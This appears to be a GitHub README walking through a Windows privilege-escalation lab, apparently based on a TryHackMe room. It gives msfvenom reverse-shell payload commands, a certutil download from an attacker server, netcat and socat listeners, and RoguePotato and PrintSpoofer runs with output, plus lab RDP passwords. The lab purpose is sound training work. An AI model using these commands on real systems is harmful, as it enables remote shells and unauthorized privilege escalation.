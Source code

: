 
# Potato Family:2k19


Get a service account by exploiting or if you want to do a demo :

Big Thanks to Tiberius for the awesome WinPriv course. You can checkout his awesome course here. I couldnot have done without his help and it is his setup :
https://www.udemy.com/course/windows-privilege-escalation/


Binaries are in the folder called files.

You have to login as the admin and then spawn a shell using the following command which can mimic the service account you get when you exploit a service to obtain a shell.

To make the reverse executables:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=443 -f exe > reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.238 LPORT=53 -f exe > rev.exe

```

To transfer them start a python server where you have these executables and this on the Windows shell.

```cmd
certutil -urlcache -split -f http://YOURIPFORTHEVPN:PORT/reverse.exe
```
To obtain a mimiced service account:

```cmd
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

https://tryhackme.com/room/windows10privesc

rdp creds
user:password321
admin:password123

--------------------------------------------------


RoguePotato.exe 

```zsh
RoguePotato.exe -r 10.11.11.238 -e "C:\PrivEsc\rev.exe" -l 9999
```
First IP is your Kali machine IP over the VPN

We have rev.exe using msfvenom which can connect to port 53 on our kali machine so:

```zsh
nc -lvnp 53
```

```zsh
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.67.56:9999
```
Here the IP is the Windows IP. Which we are trying to crack into.

![Rogue Potato in action](./files/Rogue.png)
------------------------------------------------------

Printspoofer.exe

```cmd
PrintSpoofer.exe -i -c rev.exe                                                                                                                                   
PrintSpoofer.exe -i -c rev.exe                                                                                                                                              
[+] Found privilege: SeImpersonatePrivilege                                                                                                                                 
[+] Named pipe listening...                                                                                                                                                 
[+] CreateProcessAsUser() OK
```

```zsh
 nc -lvnp 53
```

![PrintSpoofer.exe](./files/printspoofer.png)